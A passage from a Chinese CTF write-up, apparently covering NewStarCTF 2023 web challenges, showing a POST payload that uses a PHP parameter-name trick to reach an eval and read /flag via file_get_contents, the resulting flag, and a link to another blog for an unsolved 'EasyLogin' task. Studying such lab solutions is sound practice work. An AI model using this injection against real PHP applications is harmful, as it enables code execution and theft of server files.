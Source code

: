 其中有flag，构造post传参：

password=114514&e[v.a.l=var_dump(file_get_contents($_POST['a']));&a=/flag

flag{b78387af-c47c-419d-b8c8-300d9dbdb64d}



#### EasyLogin

做不出来但是这个博主写的挺好的

[BUUCTF NewStarCTF 2023 WEB题WP_Dream ZHO的博客-CSDN博客](https://blog.csdn.net/qq_65165505/article/details/133357004?ops_request_misc=%7B%22request%5Fid%22%3A%22169727404716800222853609%22%2C%22scm%22%3A%2220140713.130102334.pc%5Fall.%22%7D&request_id=169727404716800222853609&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~first_rank_ecpm_v1~rank_v31_ecpm-8-133357004-null-null.142^v96^pc_search_result_base8&utm_term=newstarctf web&spm=1018.2226.3001.4187)
